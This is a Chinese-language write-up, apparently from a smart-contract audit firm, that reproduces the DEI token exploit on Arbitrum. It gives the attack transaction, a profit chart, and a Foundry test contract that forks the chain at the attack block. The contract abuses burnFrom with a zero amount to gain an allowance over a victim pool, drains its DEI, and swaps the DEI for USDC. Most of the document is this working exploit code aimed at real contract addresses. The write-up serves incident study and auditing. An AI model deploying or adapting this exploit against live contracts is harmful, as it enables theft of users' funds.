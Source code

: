 >**了解智能合约审计和最佳实践请**[点击查看文档](https://safful.com/) 

# 智能合约漏洞案例，DEI 漏洞复现

# 1. 漏洞简介

[https://twitter.com/eugenioclrc/status/1654576296507088906](https://twitter.com/eugenioclrc/status/1654576296507088906)
![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318123903-5dbdfcf3-0773-4b41-8efc-2cc93434b234.png#averageHue=%23f0f0f0&clientId=uac557b7f-3297-4&from=paste&id=u367cc357&originHeight=475&originWidth=530&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=uac81e4f9-8613-41d1-a663-ba84c74381e&title=)

# 2. 相关地址或交易

[https://explorer.phalcon.xyz/tx/arbitrum/0xb1141785b7b94eb37c39c37f0272744c6e79ca1517529fec3f4af59d4c3c37ef](https://explorer.phalcon.xyz/tx/arbitrum/0xb1141785b7b94eb37c39c37f0272744c6e79ca1517529fec3f4af59d4c3c37ef) 攻击交易

# 3. 获利分析

![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318123938-898725c9-25b8-4bd4-a097-3722aa9a4ade.png#averageHue=%23ffc166&clientId=uac557b7f-3297-4&from=paste&id=uf04b6d6b&originHeight=269&originWidth=1751&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=ub50c42a4-aa4b-405d-8eea-215681e0440&title=)

# 5. 漏洞复现

```
pragma solidity ^0.8.10;

//import  "../interfaces/interface.sol";
import "forge-std/Test.sol";
import "./interface.sol";
import "../contracts/ERC20.sol";

interface DEI {
    function burnFrom(address account, uint256 amount) external;
}

interface AMM {
    function sync() external;
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function getAmountOut(uint amountIn, address tokenIn) external returns(uint256);

}

contract ContractTest is Test{

    address constant dei = 0xDE1E704dae0B4051e80DAbB26ab6ad6c12262DA0;
    address constant victim = 0x7DC406b9B904a52D10E19E848521BbA2dE74888b;
    address constant usdc = 0xFF970A61A04b1cA14834A43f5dE4533eBDDB5CC8;



    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("arbitrum", 87626026 -2);
        //uint256 forkId = cheats.createFork("bsc");
        //cheats.selectFork(forkId);

    }

    function testExploit() external {
        IERC20(dei).approve(victim,type(uint256).max);
        DEI(dei).burnFrom(victim, 0);
        emit log_named_decimal_uint("Attacker DEI allowance", IERC20(dei).allowance(victim,address(this)), 18);

        uint256 victimNum = IERC20(dei).balanceOf(victim);
        emit log_named_decimal_uint("victim DEI allowance", victimNum, 18);
        IERC20(dei).transferFrom(victim,address(this),victimNum-1);
        AMM(victim).sync();
        emit log_named_decimal_uint("After attack,Attacker DEI allowance",IERC20(dei).balanceOf(address(this)), 18);
        uint outNum = AMM(victim).getAmountOut(victimNum-1, dei);
        emit log_named_decimal_uint("outNUm is :",outNum, 18);

        IERC20(dei).transfer(victim,victimNum-1);
        AMM(victim).swap(0, outNum, address(this), "");

        emit log_named_decimal_uint("After attacker's usdc is :",IERC20(usdc).balanceOf(address(this)), 6);

    }
}
```
